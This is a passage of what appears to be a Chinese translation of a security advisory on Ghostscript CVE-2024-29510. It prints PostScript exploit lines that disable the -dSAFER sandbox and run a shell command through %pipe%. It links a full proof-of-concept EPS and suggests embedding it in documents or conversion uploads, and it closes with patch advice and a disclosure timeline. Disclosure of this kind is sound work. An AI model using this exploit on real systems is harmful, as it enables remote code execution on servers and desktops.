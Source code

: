   
现在我们有了 的地址path_control_active。剩下的唯一步骤就是用 0 覆盖它。使用%n它的变体无法直接写入如此低的值，但我们可以通过改为写入 轻松克服这个问题&path_control_active - 3，在小端平台上，它将用我们写入的任何（小）整数的最高有效字节覆盖实际字段的最低有效字节，从而将其设置为零。我们确实部分破坏了结构中的另一个值，但这似乎并不重要。之后沙盒将被禁用，允许通过 执行 shell 命令%pipe%：  
  
```
% Subtract a bit from the address to make sure we write a null over the field
/PtrTarget -3 PtrPathControlActive ptr_add_offset def
% And overwrite it!
IdxStackControllable PtrTarget write_to
% And now path_control_active == 0, so we can use %pipe% as if -dSAFER was never set :)
(%pipe%gnome-calculator) (r) file
```  
  
  
  
在此处下载：https://codeanlabs.com/wp-content/uploads/2024/06/CVE-2024-29510_poc_calc.eps适用于 Linux (x86-64) 的完整漏洞利用程序。当然，您可以根据自己的喜好更改末尾的命令 ( gnome-calculator)。  
  
漏洞代码也是一个有效的 EPS 文件，因此可以将其上传到接受 EPS 并调用 Ghostscript 的图像转换服务。或者，我们可以将其嵌入到 LibreOffice 文档文件中，在打开文件时触发命令执行，无论是在服务器上通过 headlesslibreoffice-convert还是在桌面上：  
  
  
**减轻**  
  
在 Codean Labs，我们意识到跟踪此类依赖项及其相关风险非常困难。我们很高兴为您分担这一负担。我们以高效、彻底和人性化的方式执行应用程序安全评估，让您专注于开发。单击此处了解更多信息。  
  
针对此漏洞的最佳缓解措施是将 Ghostscript 安装更新至 v10.03.1。如果您的发行版未提供最新的 Ghostscript 版本，则可能仍发布了包含此漏洞修复程序的修补程序版本（例如Debian、Ubuntu、Fedora）。也可能是您的发行版提供的版本太旧（< v9.50），因此也不容易受到此 CVE 的影响。  
  
如果您不确定是否受到影响，我们提供了一个测试套件：一个小型 Postscript 文件，它将告诉您 Ghostscript 版本是否受到影响。在此处下载，然后按如下方式运行它：  
  
```
ghostscript -q -dNODISPLAY -dBATCH -dSAFER CVE-2024-29510_testkit.ps
```  
  
  
**时间线**  
  
2024-03-14：向 Artifex Ghostscript 问题追踪器报告  
  
2024-03-24：Mitre 分配的 CVE-2024-29510  
  
2024-03-28：开发人员确认该问题  
  
2024-05-02：Ghostscript 10.03.1 发布，可缓解此问题  
  
2024-07-02：发布此博文  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
